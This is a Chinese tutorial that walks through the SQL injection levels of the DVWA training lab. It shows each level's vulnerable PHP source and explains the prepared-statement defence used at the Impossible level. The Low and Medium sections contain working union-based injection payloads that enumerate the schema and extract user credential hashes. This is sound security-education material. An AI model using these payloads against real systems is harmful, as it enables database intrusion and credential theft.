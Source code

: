 	**SQL注入**：SQL注入就是指web应用程序对用户输入数据的合法性没有判断，前端传入后端的参数是攻击者可控的，并且参数下入数据库查询，攻击者可以通过构造不同的SQL语句来实现对数据库的任意操作。


## 1、Low
**查看源码**
```php
<?php

if( isset( $_REQUEST[ 'Submit' ] ) ) {
    // Get input
    $id = $_REQUEST[ 'id' ];

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '
<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Get values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "
<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

    mysqli_close($GLOBALS["___mysqli_ston"]);
}

?>
```

通过代码我们可以看到并没有对用户所输入的数据做任何的判断就直接带入到数据库的查询语句中，并返回“firstname”，“lastname”。

通过看源码我们可以知道可以使用`'`来闭合前面的`'`，用`#`来注释掉后面的内容，来进行注入。而且可以看到有两个可以返回的字段。

**实战**<br />使用union注入查看当前数据库和用户名，可以看到数据库为dvwa，用户为root
```sql
-1' union select database(),user() #
```
![image-20210414141529809.png](./assets/1655879469217-cbc1fa99-774f-4599-80da-851be591a020.png)

查看dvwa数据库中的表，可以看到有两个表guestbook和users。
```sql
-1' union select user(),group_concat(table_name) from information_schema.tables where table_schema='dvwa'#
```
![image-20210414142434754.png](./assets/1655879481163-4b32eb9b-aa4b-4180-9f03-706a2d24dc4e.png)

查看users中的字段
```sql
-1' union select user(),group_concat(column_name) from information_schema.columns where table_name='users'#
```
![image-20210414142705424.png](./assets/1655879486720-2978702c-296f-4881-8987-f0d03bbf4cdd.png)

查看user，和password,得到账户和密码的MD5
```sql
-1' union select user(),group_concat(concat_ws('-',user,password)) from dvwa.users#
```
![image-20210414143100602.png](./assets/1655879491383-ac73da71-2d8e-4209-82fe-b4d7f7787852.png)

解密得到密码<br />![image-20210414143459141.png](./assets/1655879496709-180b0570-34d6-4771-a2e3-35ae59db00b2.png)


## 2、Medium
**查看源码**
```php
<?php

if( isset( $_POST[ 'Submit' ] ) ) {
    // Get input
    $id = $_POST[ 'id' ];

    $id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);

    $query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query) or die( '
<pre>' . mysqli_error($GLOBALS["___mysqli_ston"]) . '</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Display values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "
<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

}

// This is used later on in the index.php page
// Setting it here so we can close the database connection in here like in the rest of the source scripts
$query  = "SELECT COUNT(*) FROM users;";
$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '
<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
$number_of_rows = mysqli_fetch_row( $result )[0];

mysqli_close($GLOBALS["___mysqli_ston"]);
?>
```

**函数说明**
```
定义和用法
mysqli_real_escape_string（）函数转义在SQL语句中使用的字符串中的特殊字符。

语法
mysqli_real_escape_string(connection,escapestring);
connection:必需。规定要使用的 MySQL 连接。
escapestring:必需。要转义的字符串。编码的字符是 NUL（ASCII 0）、\n、\r、\、'、" 和 Control-Z。
```

在这里使用了mysqli_real_escape_string（）转义一些特殊字符，也就是说我们不能使用像Low中的`'1#`,不过我们可以使用`and 1=2`来进行注入，不需要进行过滤。而且可以看到这里是以表单的形式来然我们提交，web页面参数不可控，所以需要使用burp来抓包重放。修改参数id即可。<br />![image-20210414151316663.png](./assets/1655879514109-e11ff2dc-59df-4aa8-bd30-0b14157826e4.png)

**实战**<br />查看当前用户和数据库
```
1 and 1=2 union select user(),database()
```
![image-20210414150447028.png](./assets/1655879521177-5cd1c09a-484d-452a-a62f-92bc6a498faf.png)

查看dvwa表中的字段,因为将`'`和`"`进行了转义无法使用，所以在这里我将dvwa转为ascii十六进制0x64767761
```
1 and 1=2 union select user(),group_concat(table_name) from information_schema.tables where table_schema=0x64767761
```
![image-20210414151255002.png](./assets/1655879526097-5ee164e4-df7b-4aea-b60b-03621cf07397.png)

查看users表中的字段
```
1 and 1=2 union select user(),group_concat(column_name) from information_schema.columns where table_name=0x7573657273
```
![image-20210414151605836.png](./assets/1655879531087-73297807-95e1-430e-bade-a2c0c02c8b29.png)

查看user和password
```
1 and 1=2 union select user(),group_concat(	concat_ws(0x2d,user,password)) from dvwa.users
```
![image-20210414151954881.png](./assets/1655879536619-5540cf6b-dfaf-4079-a328-1ff61bd448b0.png)

解密得到密码<br />![image-20210414143459141.png](./assets/1655879540443-9d2c4429-ab9f-4604-9e0a-3ab11f6c1892.png)


## 3、High
**查看源码**
```php
<?phpif( isset( $_SESSION [ 'id' ] ) ) {    // Get input    $id = $_SESSION[ 'id' ];    // Check database    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query ) or die( '
<pre>Something went wrong.</pre>' );    // Get results    while( $row = mysqli_fetch_assoc( $result ) ) {        // Get values        $first = $row["first_name"];        $last  = $row["last_name"];        // Feedback for end user        echo "
<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";    }    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);        }?>
```

通过源码可以看到就是在Low的基础上在sql语句后面加了一个LIMIT 1，希望以此控制只输出一个结果。但是我们还是可以通过#将其注释掉。

以下步骤与Low相同，不进行叙述。


## 4、Impossible
**查看源码**
```php
<?phpif( isset( $_GET[ 'Submit' ] ) ) {    // Check Anti-CSRF token    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );    // Get input    $id = $_GET[ 'id' ];    // Was a number entered?    if(is_numeric( $id )) {        // Check the database        $data = $db->prepare( 'SELECT first_name, last_name FROM users WHERE user_id = (:id) LIMIT 1;' );        $data->bindParam( ':id', $id, PDO::PARAM_INT );        $data->execute();        $row = $data->fetch();        // Make sure only 1 result is returned        if( $data->rowCount() == 1 ) {            // Get values            $first = $row[ 'first_name' ];            $last  = $row[ 'last_name' ];            // Feedback for end user            echo "
<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";        }    }}// Generate Anti-CSRF tokengenerateSessionToken();?>
```

通过源码可以看到，Impossible级别的代码采用了PDO技术，划清了代码与数据的界限，有效防御SQL注入，同时只有返回的查询结果数量为一时，才会成功输出，这样就有效预防了“脱裤”，Anti-CSRFtoken机制的加入了进一步提高了安全性。
